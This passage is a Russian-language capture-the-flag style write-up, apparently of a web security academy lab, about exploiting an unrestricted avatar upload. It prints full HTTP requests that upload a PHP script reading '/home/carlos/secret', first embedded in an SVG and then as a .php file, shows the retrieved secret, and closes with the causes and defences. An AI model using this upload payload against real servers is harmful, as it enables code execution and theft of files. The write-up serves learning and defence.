<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="csrf"

3mWe1wCv5QmatX6UmcZbf1yMVIBTdlqT
------WebKitFormBoundaryC6Ct08Bk4kUifXby--

```
но сервер ответил тупо вот так:
вернув содержимое обратно
```http
HTTP/2 200 OK
Date: Thu, 19 Mar 2026 08:51:29 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Thu, 19 Mar 2026 08:49:56 GMT
Etag: "4d8a-64d5ca71ce4f6"
Accept-Ranges: bytes
Content-Type: image/svg+xml
X-Frame-Options: SAMEORIGIN
Content-Length: 19850

<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
 <script>
    <![CDATA[
      <?php echo file_get_contents('/home/carlos/secret'); ?>
    ]]>
  </script>
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint0_linear_129_28)" fill-opacity="0.2"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint1_linear_129_28)"/>
<path d="M47.9009 110.

и далее код картинки просто
```

сервер вернул просто как текст мой пейлоад

это значит:

- сервер позволяет загружать любые файлы (нет проверки содержимого)
- НО директория `/files/avatars/`  наверно, не настроена на выполнение PHP

---------


пробую еще раз через `<?php echo file_get_contents('/home/carlos/secret'); ?>`
вот так - с заменой content-type 


```http
POST /my-account/avatar HTTP/2
Host: 0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Cookie: session=EXixgRe73MeviOpvsz8936e7unW08bJ0
Content-Length: 471
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryC6Ct08Bk4kUifXby
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="avatar"; filename="Frame 14.php" 👈👈👈🟣 PHP
Content-Type: application/x-php  👈👈👈🟣 PHP

<?php echo file_get_contents('/home/carlos/secret'); ?> 👈👈👈🟣 СКПРИТ php

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="csrf"

3mWe1wCv5QmatX6UmcZbf1yMVIBTdlqT
------WebKitFormBoundaryC6Ct08Bk4kUifXby--

```

теперь пробую загрузть файл
`https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net/files/avatars/Frame%2014.php`

и вуаля - получаю файл
XCq1obnq2AIzwNkSoFK9lfHeSn3TPwbt




лаба решена!!!!

------

#### ВЫВОД

я смог взломать эту лабу потому что сервер доверял заголовку content-type и не проверял реальное содержимое файла  

я отправил php-скрипт с заголовком application/x-php и сервер послушно сохранил его  
потом я открыл этот файл в браузере и php-код выполнился, вернув мне секрет карлоса  

никакой сложной обфускации не потребовалось - просто честный php файл с честным расширением  
сервер даже не проверил что внутри файла - он просто увидел заголовок и сохранил

( и я немного тупанул по неопытности, когда поменял имя файла в запросе, и потом по ссылке пытался загрузить файл со старым именем, и там ничего не было.. ну, это первая лаба у меня такая, теперь я шарю)

почему взлом сработал:

1, сервер не проверял соответствие между расширением файла и его реальным содержимым  
2, директория для аватарок была настроена на выполнение php-скриптов  
3, форма загрузки не имела никакой валидации кроме заголовка content-type  
4, я мог напрямую обратиться к загруженному файлу по известному url

----------
#### ЗАЩИТА

нужно всегда проверять реальное содержимое файла, а не только заголовок  

для изображений можно проверять их размеры и сигнатуры через библиотеки типа `getimagesize  `

директории для загрузки пользовательских файлов должны быть настроены на отдачу статики без выполнения кода  

лучше переименовывать файлы при загрузке в случайные имена без расширений  

хорошая практика - хранить файлы вне веб-рута и отдавать через скрипт-прослойку с проверкой mime-типа  
и конечно = `белый список` = разрешенных расширений рулит - только `.jpg .png .gif и никаких .php`

никогда не доверять пользовательскому вводу и всегда проверять что реально лежит в файле
